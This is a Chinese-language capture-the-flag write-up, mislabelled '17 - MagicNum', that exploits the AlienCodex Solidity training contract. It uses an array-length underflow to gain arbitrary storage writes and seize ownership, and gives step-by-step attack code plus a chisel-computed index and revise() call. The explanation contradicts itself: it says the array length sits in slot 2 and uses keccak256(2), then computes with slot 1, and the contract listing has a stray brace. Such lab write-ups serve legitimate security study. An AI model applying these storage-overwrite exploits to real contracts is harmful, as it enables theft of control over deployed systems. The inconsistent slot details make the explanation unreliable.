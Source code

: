 # 17 - MagicNum

## 题目
攻击以下合约
```solidity
//You've uncovered an Alien contract. Claim ownership to complete the level.
//
//Things that might help
//
//Understanding how array storage works
//Understanding ABI specifications
//Using a very underhanded approach
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
bool public contact;
bytes32[] public codex;

modifier contacted() {
assert(contact);
_;
}

function makeContact() public {
contact = true;
}

function record(bytes32 _content) public contacted {
codex.push(_content);
}

function retract() public contacted {
codex.length--;
}

function revise(uint256 i, bytes32 _content) public contacted {
codex[i] = _content;
}
}
}
```

## 解题
本题考察点：
该合约存在数组下溢和任意存储写入的漏洞，以下是详细的漏洞分析和攻击步骤：

### 漏洞分析：

1. **数组长度下溢漏洞（Underflow）**：

    - 在 Solidity 0.5.0 中，对数组长度的递减操作 `codex.length--` 不会执行下溢检查。
    - 当 `codex.length` 为 0 时，调用 `retract()` 函数会使数组长度下溢，变为 `2^256 - 1`，即一个非常大的数。

2. **任意存储写入漏洞**：

    - Solidity 中动态数组的元素存储位置从 `keccak256(slot)` 开始，其中 `slot` 是数组长度存储的位置。
    - 对于 `codex` 数组，其元素存储起始位置为 `keccak256(2)`，因为 `codex` 的长度存储在存储槽位 2。
    - 当数组长度被下溢后，我们可以使用任意大的索引 `i`，通过 `codex[i]` 访问和修改任意的存储槽位。
    - 通过计算合适的索引 `i`，使得 `keccak256(2) + i == 0`，即可覆盖存储槽位 0，即合约的 `owner` 变量。

### 攻击步骤：

1. **调用 `makeContact()` 函数**：

    - 设置 `contact` 为 `true`，以便通过 `contacted` 修饰器的检查。

2. **调用 `retract()` 函数**：

    - 使 `codex.length` 下溢，变为 `2^256 - 1`，允许对数组使用任意大的索引。

3. **计算索引 `i`**：

    - 计算 `i = 2^256 - keccak256(1)`，以便使 `keccak256(1) + i == 0`。

4. **准备要写入的数据 `_content`**：

    - 将攻击者的地址左填充为 32 字节，即 `bytes32(uint256(uint160(msg.sender)))`。

5. **调用 `revise(i, _content)` 函数**：

    - 使用计算得到的索引 `i`，将 `_content` 写入到存储槽位 0，覆盖合约的 `owner` 变量。
   
Slot        Data
------------------------------
0             owner address, contact bool
1             codex.length
.
.
.
p             codex[0]
p + 1         codex[1]
.
.
2^256 - 2     codex[2^256 - 2 - p]
2^256 - 1     codex[2^256 - 1 - p]
0             codex[2^256 - p]  (overflow!)
### 攻击代码示例：

```solidity
// 假设攻击者的地址为 attackerAddress
bytes32 attackerAddressPadded = bytes32(uint256(uint160(attackerAddress)));

// 计算 i = 2^256 - keccak256(2)
uint256 i =type(uint256).max - uint256(keccak256(abi.encodePacked(uint256(1)))) + 1

// 执行攻击
alienCodex.makeContact();
alienCodex.retract();
alienCodex.revise(i, attackerAddressPadded);
```
通过chisel 运行：
➜ type(uint256).max - uint256(keccak256(abi.encodePacked(uint256(1)))) + 1
Type: uint256
├ Hex: 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
contract.revise("0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a","0x0000000000000000000000001234123412341234123412341234123412341234")


### 总结：

通过利用数组长度下溢漏洞，我们可以修改数组的长度，使其足够大，然后计算合适的索引，覆盖任意存储槽位，最终取得合约的所有权。

**注意**：此漏洞存在于早期版本的 Solidity（如 0.5.0），在较新的版本中，数组长度的下溢和上溢检查已经得到加强，类似的漏洞已被修复。

---

**关键点总结**：

- **数组长度下溢**：利用 `codex.length--` 在长度为 0 时下溢。
- **存储槽位计算**：动态数组元素的存储槽位计算方式为 `keccak256(slot) + index`。
- **覆盖存储槽位**：通过计算索引，使得目标槽位被覆盖，进而控制合约。